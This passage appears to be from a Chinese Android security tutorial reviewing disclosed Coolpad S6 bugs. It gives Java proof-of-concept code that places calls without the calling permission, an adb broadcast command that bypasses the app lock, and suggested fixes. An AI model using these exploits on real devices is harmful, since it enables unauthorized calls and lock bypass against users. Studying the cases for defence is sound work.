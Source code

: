 案例 2：[酷派最安全手机 s6 拨打电话权限绕过](https://wooyun.x10sec.org/static/bugs/wooyun-2014-084520.html)

 

漏洞详情：

```
酷派最安全手机s6拨打电话权限绕过，第三方app可以无需拨打电话权限直接拨打电话

```

攻击代码：

```
Intent intent = new Intent();
intent.setComponent(new ComponentName("com.android.phone","com.android.phone.PhoneGlobals$NotificationBroadcastReceiver"));
intent.setAction("com.android.phone.ACTION_CALL_BACK_FROM_NOTIFICATION");
intent.setData(Uri.parse("tel:10000"));
intent.setFlags(Intent.FLAG_ACTIVITY_NEW_TASK);
sendBroadcast(intent);

```

通过 intent 启动外部电话应用，匹配 action，并授权标志位，这样就可以不用获取权限，就可以打电话

 

修复：

```
（1）使用本地广播
（2）对广播的action进行判别

```

案例 3：[酷派最安全手机 s6 程序锁绕过](https://wooyun.x10sec.org/static/bugs/wooyun-2014-084516.html)

 

漏洞详情：

```
程序加锁解锁是靠广播来控制的，并且这两条广播没做权限限制，任意应用可以发送此广播达到恶意解锁、恶意锁定应用的目的

```

漏洞测试：

 

简单测试方法用 adb shell 发送广播，用来解锁

 

![](https://bbs.pediy.com/upload/attach/202109/905443_8YB9MGNEX4AS4MT.png)

 

然后使用命令行

```
adb shell am broadcast -a android.intent.action.PACKAGE_FULLY_REMOVED -d package:com.wumii.android.mimi

```
